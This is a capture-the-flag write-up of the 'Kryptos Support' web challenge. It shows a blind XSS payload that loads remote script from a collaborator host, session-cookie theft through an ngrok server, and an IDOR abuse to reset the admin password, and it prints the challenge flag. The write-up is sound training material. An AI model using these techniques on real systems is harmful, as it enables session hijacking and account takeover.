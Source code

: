 ```yaml
---
layout: distill
published: true
title: Web - Kryptos Support Writeup
date: 2022-05-25 11:09:00+0700
description: Writeup for Kryptos Support Challenge. Cyber Apocalypse CTF 2022 - Intergalactic Chase
tags: ctf
# tags: distill formatting
categories: write-ups
thumbnail: assets/img/cyber-apocalypse-ctf-2022/kryptos-1.png # change this
giscus_comments: true
related_posts: true
featured: true

authors:
  - name: Dwiki Kusuma
    url: "https://twitter.com/qlkwej"
    affiliations:
      name: qlkwej
toc:
  - name: Challenge Description
  - name: Problem
  - name: Attack vectors
    subsections:
      - name: Checking the ticket creating process
  - name: Solution
  - name: Lesson Learned
    subsections:
      - name: Login using default password
      - name: Bypass client-side validation

---
```



{% details Disclaimer %}
I am not a CTF addict nor maniac, I do CTF for fun and learning purpose. 
So, if you are looking for a writeup that is very detailed and easy to understand, I suggest you to find another writeup. 

This writeup is just a note for myself and maybe for someone who is looking for a hint to solve the challenge.
Feedback /  comments / PRs are welcome :)
{% enddetails %}


## Challenge Description

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-1.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Upon checking the challenge description, we are given a short description about the challenge.

> The secret vault used by the longhir's planet council, Kryptos, contains some very sensitive state secret that Virgil adn Ramona are after to prove injustice performed by the commision. Ulysses performed an initial recon at their request and found a support portal for the vault.
Can you take a look if you can inflitrate this system? 

Let start the challenge by visiting the given link.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-2.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
*** 

## Problem

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-3.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
The application is a reporting website that allows user to report a problem. There is a keyword `an admin will review your ticket shortly`.
So, I assume there is a cronjob that run behind the scene to check the ticket and send the report to the admin.

***

## Attack vectors
Let's do basic recon to get more information about the application. I use gobuster<d-footnote>https://github.com/OJ/gobuster</d-footnote> for this purpuse and found the login directory.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-5.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

So we have two piece of puzzle as a `hints`, which was:
1. The admin will review the ticket shortly
2. The login page

The best case scenario is the admin will review the ticket (which contaions blind XSS or CSRF vulnerability) and login to the application. So, we can login to the dashboard (maybe).
But the question is, where is the starting point?

### Checking the ticket creating process
Let's create a ticket and see what happen behind the scene. I use burp suite to intercept the request and send it to repeater. 

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-4.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The request is a POST request with a JSON body to `POST /api/tickets/add`. The body contains a `message`  of the ticket, and it returns a response which indicates the admin will review our message shortly.

Okay, this is maybe the starting point. Let's try to inject a XSS payload to the message and see what happen.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-8.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I use a vanilla javascript payload with the burpsuite collabolator URL as the endpoint. The payload is `"><script src="https://collabolator/test.js"></script>`.

I receive a DNS and HTTP request from the application server to the collabolator server. So, the application is vulnerable to blind XSS.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-7.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The next step is to steal the cookie if it's using a cookie based authentication using XMLHttpRequest <d-footnote>https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials</d-footnote>. 

I create a dummy server using ngrok <d-footnote>https://ngrok.com/</d-footnote> to host the javascript exploit and use it to receive the request from the application server.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-10.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I receive a request from the application server and it contains a cookie. So, the application is using a cookie based authentication. Because if it's using a header based authentication, the exploit won't work.

***


## Solution

Checking the session cookie format, it is a JWT token. So, we can decode the token and see what is inside the token.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-11.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Based on the `payload data` it is the `moderator` session. But why not `admin` ? Perhaps there still one missing piece, but will keep it for  observation later.

Use the session cookie from the previous step to login to the application. I use the `Cookie Editor` extension <d-footnote> https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/ </d-footnote>for firefox to change the cookie value.

I can login to the application and see the dashboard. But, there is no flag in the dashboard. So, I assume the flag is in the admin dashboard.
I check all the feature in `moderator` dashboard and found a `change password` feature which is vulnerable to IDOR.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-12.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-13.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>


When I put the new password, it will send a POST request to `POST /api/users/update` with a JSON body. The body contains a `password` and `uid` field. The IDOR vulnearbility was in `uid`. IF we can change the `uid` value to the `uid` own by the `admin` we can change the admin password. Since it's a increamental number, so we can bruteforce it from 001-999 _(the current user is moderator with `uid` 100 so admin must be between that range)_.

After several iteration, we found the admin `uid` it is `uid: 001`
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-14.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Change the admin password on the `change password` feature and login to the admin dashboard. The flag is in the admin dashboard.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-15.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

```
  HTB{x55_4nd_id0rs_ar3_fun!!}
```

***

## Lesson Learned

I learn several things from this challenge:

### Login using default password
The easiest way to login to the application is to use the default password. I try to use `admin:admin` but it won't work. But, it's not a bad idea to try the default password first, because in realworld this scenario is still happen.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-6.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

### Bypass client-side validation

At first, I check the client-side login validation. Whether it using a weak validation and I can bypass the flow. But, turns out it's a rabbit hole.
It's only give us information if the login were successfull, it will redirected to `/tickets` page

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-9.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
